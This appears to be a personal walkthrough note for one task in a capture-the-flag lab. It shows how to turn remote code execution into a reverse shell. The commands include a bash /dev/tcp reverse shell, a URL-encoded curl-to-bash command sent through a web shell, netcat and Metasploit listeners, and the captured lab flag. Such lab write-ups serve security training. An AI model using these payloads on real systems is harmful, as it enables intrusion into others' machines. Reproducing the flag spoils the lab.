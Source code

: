
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

- The first line will declare that we are using the bash scripting language. 
- The second line is the payload itself. 

For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
or
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job

- Create a `shellscript.sh` file with the following code:
	`#!/bin/bash`
	`bash -i >& /dev/tcp/<tun0 IP>/53 0>&1`

- Start up a local web server in the `shellscript.sh` directory on your attacking machine.
	`python3 -m http.server 80`

- On your attacking machine, start a listener using Netcat .
	`nc -lvnp 53`

- On the Reverse Shell you already have opened, run the following code:
	`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F<tun0 IP>%3A80%2Fshellscript.sh%7Cbash%20%26'`
	![[Task 19 - Going out with a SHEBANG!-20240919140944870.webp]]
- Stabilize the shell.
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`

> [!INFO]
You have shell onto  L-SRV01.


---

## Flag on L-SRV01

- On the Reverse Shell go to `www-data@ip-10-200-95-33:/var/www$` and run:
	`cat user.txt`

	HOLO{3792d7d80c4dcabb8a533afddf06f666}

- Submit the user flag on Task 4, question 2.

**Next step:** [[Task 20 - Call me Mario, because I got all the bits]]
